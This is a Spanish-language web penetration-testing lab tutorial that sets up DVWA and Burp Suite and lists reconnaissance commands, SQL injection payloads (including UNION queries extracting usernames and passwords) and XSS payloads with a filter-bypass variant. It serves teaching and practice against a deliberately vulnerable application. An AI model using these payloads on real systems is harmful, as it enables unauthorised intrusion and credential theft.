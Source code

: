 ## 🔬 Laboratorio Práctico

### Configuración del Entorno de Práctica

1. **Instalar herramientas necesarias:**
```bash
# Instalar DVWA (Damn Vulnerable Web Application)
docker run --rm -it -p 80:80 vulnerables/web-dvwa

# Instalar Burp Suite Community
# Descargar desde: https://portswigger.net/burp/communitydownload
```

2. **Configurar proxy de interceptación:**
```bash
# Configurar navegador para usar proxy (127.0.0.1:8080)
# Importar certificado CA de Burp Suite
```

### Pruebas de Penetración Web

#### 1. Reconnaissance
```bash
# Enumerar tecnologías
whatweb http://target.com

# Buscar archivos sensibles
dirb http://target.com /usr/share/wordlists/dirb/common.txt

# Análisis de headers
curl -I http://target.com
```

#### 2. Testing de SQL Injection
```sql
-- Pruebas básicas
' OR '1'='1
' UNION SELECT NULL--
' OR SLEEP(5)--

-- Enumerar bases de datos
' UNION SELECT schema_name FROM information_schema.schemata--

-- Extraer datos
' UNION SELECT username,password FROM users--
```

#### 3. Testing de XSS
```javascript
// Payloads básicos
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
javascript:alert('XSS')

// Bypass de filtros
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
```
